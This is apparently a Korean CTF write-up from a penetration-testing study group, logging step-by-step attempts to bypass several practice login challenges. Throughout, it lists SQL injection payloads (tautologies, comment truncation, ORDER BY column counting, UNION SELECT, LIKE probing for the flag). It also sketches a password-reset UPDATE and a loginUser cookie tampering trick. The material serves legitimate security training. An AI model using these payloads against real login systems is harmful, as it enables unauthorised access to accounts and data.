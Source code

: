 ```yaml
---
layout: post
comments: true
sitemap:
    changefreq: daily
    priority: 0.5

title: "[CTF] CTF 문제 풀이"
excerpt: "모의해킹 취업반 스터디 7기 6주차"

date: 2024-11-26
last_modified_at: 

tags: [TIL, WEB, DATABASE, CTF]
---
```


# login bypass 3
1. 
id: doldol
pw: dol1234
-> login.php에서 index.php로 302
-> 서버측에서 웹페이지 이동시켜준다
2. 
id: doldol' and '1' = '1
pw: dol1234
-> O
-> sql injection 가능하다
-> query에서 괄호가 안 쓰였어
3. 
id: doldol' or '1' = '1
pw: dol1234
-> X
-> or 필터링이 되어 있는 걸까요?
4. 
id: doldolor
pw: dol1234
-> X
-> 'or' 필터링 X
5. 
id: doldol or
pw: dol1234
-> X
-> ' or' 필터링 X
6. 
id: doldol or 
pw: dol1234
-> X
-> ' or ' 필터링 X
7. 
id: doldolor '1' = '1
pw: dol1234
-> X
-> "or '1' = '1" 필터링 X
8. 
id: doldol'or'1'='1
pw: dol1234
-> X
-> 띄어쓰기 관련도 아닌가봐요
9. 
id: doldol'and'1'='1
pw: dol1234
-> O
-> or이랑 관련이 있는 건데...
10. 
id: doldol'or'1'='1'#
pw: dol1234
-> X
11. 
id: doldol'#
pw: dol1234
-> O
12. 
id: doldol'#
pw: asdf
-> X
-> 식별, 인증 분리 or 줄을 새로 넘겼거나
13. 
id: doldol' order by 1 #
pw: dol1234
-> O
14. 
id: doldol' order by 1, 2 #
pw: dol1234
-> O
13. 
id: doldol' order by 1, 2, 3 #
pw: dol1234
-> X
-> column은 ID, PW 두 개만 있네요
14. 
id: doldol' union select 1, 2 #
pw: dol1234
-> O
-> union은 안 막혀있네요
-> 근데 data를 볼 수 있는 곳이 없잖아요
15. 
id: doldol' union select database(), 2 #
pw: dol1234
-> O
16. 
id: doldol
pw: dol1234'and'1'='1
-> X
-> if input_pw == DB['pw']: 통과
17.
UPDATE sqli_1 SET UserId = 'normaltic3', Password = 'asdf' where UserId = 'normaltic3';
-> table name을 몰라
-> 비밀번호를 바꿀 수 없어

# login bypass 4
1. 
id: doldol
pw: dol1234
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-10.png?raw=true)
-> login.php과 logout.php에서 302 응답 코드가 보인다.
-> 다른 페이지로 이동시켜준다는 뜻
2. 
id: doldol' and '1' = '1
pw: dol1234
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-4.png?raw=true)
-> sql injection 가능하다
-> 괄호 X
3. 
id: doldol'#
pw: dol1234
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-4.png?raw=true)
-> 주석 처리 가능
4. 
id: doldol'#
pw: asdf
-> X
-> 줄바꿈을 했거나
-> 식별과 인증을 분리했거나
5. 
id: doldol' or '1' = '1
pw: asdf
-> 식별과 인증을 분리했네
    -> normaltic4의 비밀번호를 바꾸거나
        -> update: table과 column 이름 필요
    -> normaltic4의 비밀번호를 확인하거나
        -> union: 모든 결과값을 확인할 수 있어야 함
-> 여기도 column이 name일까?
6. 
id: doldol' and name = 'doldol' #
pw: dol1234
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-4.png?raw=true)
-> column이 name이네?
-> 그러면 column 개수도 똑같나?
7. 
id: doldol' order by 1, 2, 3, 4, 5, 6 #
pw: dol1234
-> X
8. 
id: doldol' order by 1, 2 #
pw: dol1234
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-4.png?raw=true)
9. 
id: doldol' order by 1, 2, 3 #
pw: dol1234
-> X
-> column 개수가 3개네
-> 그러면 딱 id랑 pw만 있네
10. 
id: doldol' and Password = 'dol1234
pw: dol1234
-> x
11. 
id: doldol' and pass = 'dol1234
pw: dol1234
-> x
12. 
id: doldol|normaltic4
pw: dol1234
-> X
-> 정규식에서 |가 or을 의미한다고 해서 해봤는데 안되네
13. 
id: doldol' union select 1, 2' #
pw: dol1234
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-4.png?raw=true)
-> 데이터를 볼 수가 없네
14. 
알고 있는 정보를 정리해 보자
1. 식별, 인증 분리 로직
2. column은 2개 -> id, pw
3. doldol/dol1234, normaltic4/?
select * from table where id = id
if db_pw = input_pw:
    통과
15. 
id: doldol' and UserId = 'doldol' #
pw: dol1234
-> x
16. 
id: doldol' and userId = 'doldol' #
pw: dol1234
-> x
17. 
id: doldol' and userid = 'doldol' #
pw: dol1234
-> x
18. 
id: doldol' and id = 'doldol' #
pw: dol1234
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-4.png?raw=true)
19. 
id: doldol' or id = 'normaltic4' #
pw: dol1234
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-4.png?raw=true)
-> id는 normaltic4, pw는 doldol꺼 차용해서 로그인할 수 있을 줄 알았는데 doldol씨네
-> 순서 차이?
20. 
id: normaltic4' or id = 'doldol' #
pw: dol1234
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-4.png?raw=true)
-> id랑 pw가 같은 계정으로 로그인되나봐
select * from table where id = id
if db_pw = input_pw:
    통과한 아이디로 로그인
21. 
id: normaltic4'
pw: ' or '1' = '1
-> x
-> 역시나 안 되고
22. 
id: doldol
pw: dol1234' and pw = 'dol1234' #
-> X
23. 
id: doldol' and pw = 'dol1234' #
pw: dol1234
-> x
23. 
id: doldol' and pass = 'dol1234' #
pw: dol1234
-> x
23. 
id: doldol' and UserPass = 'dol1234' #
pw: dol1234
-> x
24. 

# Login Bypass 5
1. 
id: doldol
pw: dol1234
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-7.png?raw=true)
response에서 Set-Cookie: loginUser = doldol이 보인다
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-8.png?raw=true)
2. response를 탈취해서 loginUser를 normaltic5로 변경하겠다
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-9.png?raw=true)

# Secret Login
1. 
id: doldol
pw: dol1234
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-3.png?raw=true)
-> login.php과 logout.php에서 302 응답 코드가 보인다.
-> 다른 페이지로 이동시켜준다는 뜻
2. 
id: doldol' and '1' ='1
pw: dol1234
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-4.png?raw=true)
-> sql injection이 가능하다
-> 괄호 X
3. 
id: doldol'#
pw: dol1234
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-4.png?raw=true)
-> 주석 처리 가능
4. 
id: doldol'#
pw: asdf
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-4.png?raw=true)
-> 식별과 인증 동시에 하는 듯
sql: select id, pw from table where id = 'id' and pw = 'pw'
5. 
id: ' or '1' = '1'#
pw: asdf
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-5.png?raw=true)
-> ' or '1' = '1'#이렇게 하면 모든 row를 다 챙겨오는 데 하나 밖에 안 보여지다보니 가장 첫 번째 row만 보여지는 듯
6. 
id: login_acc' #
pw: asdf
-> X
-> 왜 안 되지?
-> 표시되는 게 아이디가 아니라 이름인 건가?
7. 
id: login_acc' or '1' = '1' #
pw: asdf
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-5.png?raw=true)
8. 
id: ' or '1' = '1' order by 1, 2, 3 #
pw: asdf
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-5.png?raw=true)
-> 아이디, 패스워드, 사용자 이름이 있다고 가정하고 시작
... 하나씩 늘려보는 중 ...
8. 
id: ' or '1' = '1' order by 1, 2, 3, 4, 5, 6, 7 #
pw: asdf
-> x
-> column이 6개인 걸 보면 표시되는 게 아이디가 아니라 이름일 가능성이 높네
-> admin의 row를 어떻게 가져올 수 있을까?
9. 
SELECT [UserId], [Password] FROM [table] WHERE [UserId] = '___' AND [Password] = '___'
column을 UserName일 것이라 추측해봄
id: ' or '1' = '1' AND UserName = 'login_acc' #
pw: asdf
-> X
10. 
id: ' or '1' = '1' AND Username = 'login_acc' #
pw: asdf
-> X
11. 
id: ' or '1' = '1' AND username = 'login_acc' #
pw: asdf
-> X
12. 
id: ' or '1' = '1' AND user_name = 'login_acc' #
pw: asdf
-> X
13. 
id: ' or '1' = '1' AND user-name = 'login_acc' #
pw: asdf
-> X
14. 
id: ' or '1' = '1' AND name = 'login_acc' #
pw: asdf
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-5.png?raw=true)
-> 표시되는 게 유저명인 게 확실해졌고
-> column이 name이라는 것도 확인했다
-> 그렇지만 admin은 아니라는 거
-> 혹시 name에 like를 집어넣으면? flag의 경우에는 {}가 들어가니까 이걸 검색하는 걸로
15. 
SELECT * FROM [table] WHERE [UserId] = '___' or '1' = '1' AND name like '%}' #[Password] = '___'
id: ' or '1' = '1' and name like '%}' #
pw: asdf
-> X
-> 어딘가 문법이 틀렸나
16. 
id: ' or name like '%}' #
pw: asdf
-> x
17. 
id: ' or name like '%a%' #
pw: asdf
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-5.png?raw=true)
18. 
id: ' or name like '%e%' #
pw: asdf
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-26-6.png?raw=true)